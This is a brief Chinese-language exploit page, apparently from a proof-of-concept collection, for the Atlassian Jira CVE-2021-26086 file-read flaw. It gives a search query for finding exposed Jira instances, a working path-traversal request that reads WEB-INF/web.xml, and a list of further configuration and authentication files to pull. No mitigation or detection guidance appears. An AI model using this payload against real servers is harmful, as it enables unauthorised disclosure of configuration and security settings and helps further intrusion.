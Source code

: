 # Atlassian Jira cfx 任意文件读取漏洞 CVE-2021-26086

# Atlassian Jira cfx 任意文件读取漏洞 CVE-2021-26086

## 漏洞描述

Atlassian Jira Server/Data Center 8.4.0 - Limited Remote File Read/Include

## 漏洞影响

```
Atlassian Jira Server/Data Center 8.4.0
```

## 网络测绘

```
app="ATLASSIAN-JIRA"
```

## 漏洞复现

登录页面

![](/images/202205241424642.png)

验证POC

```
/s/cfx/_/;/WEB-INF/web.xml
```

![](/images/202205241424545.png)

可读取敏感配置文件

```
WEB-INF/web.xml
WEB-INF/decorators.xml
WEB-INF/classes/seraph-config.xml
META-INF/maven/com.atlassian.jira/jira-webapp-dist/pom.properties
META-INF/maven/com.atlassian.jira/jira-webapp-dist/pom.xml
META-INF/maven/com.atlassian.jira/atlassian-jira-webapp/pom.xml
META-INF/maven/com.atlassian.jira/atlassian-jira-webapp/pom.properties
```


